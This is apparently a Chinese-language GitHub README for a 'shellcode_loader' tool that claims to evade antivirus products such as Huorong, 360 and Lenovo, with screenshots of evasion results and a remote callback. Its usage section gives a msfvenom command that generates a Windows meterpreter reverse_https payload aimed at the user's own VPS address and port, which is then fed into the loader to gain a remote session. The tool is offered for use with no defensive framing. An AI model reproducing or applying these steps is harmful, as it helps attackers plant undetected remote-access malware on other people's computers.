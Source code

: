 # shellcode_loader
一款shellcode免杀工具，免杀测试对象火绒 360 联想等其他杀软,源码暂时就不放出来了效果如图。

上线效果如图：
![图片](https://user-images.githubusercontent.com/83112602/171603146-feec6c7a-ab83-4a8f-a921-c21db33e27a8.png)

免杀效果

火绒：![图片](https://user-images.githubusercontent.com/83112602/171603373-f50c1d92-d21f-4666-badc-2b6881e3b0a6.png)
360：![图片](https://user-images.githubusercontent.com/83112602/171603468-4cbad515-e887-4e55-b678-72e56dd13a0b.png)
联想：![图片](https://user-images.githubusercontent.com/83112602/171603645-e25e7e99-c128-494c-83b8-ecc45e01989a.png)


使用方法 msf生成 payload
msfvenom -p windows/x64/meterpreter/reverse_https  Lhost=vps地址 Lport=vps端口 -f hex

cmd界面输入打开loader输入payload上线
![图片](https://user-images.githubusercontent.com/83112602/171603890-e5ac8e02-433c-44b8-accd-f199cb0f1674.png)
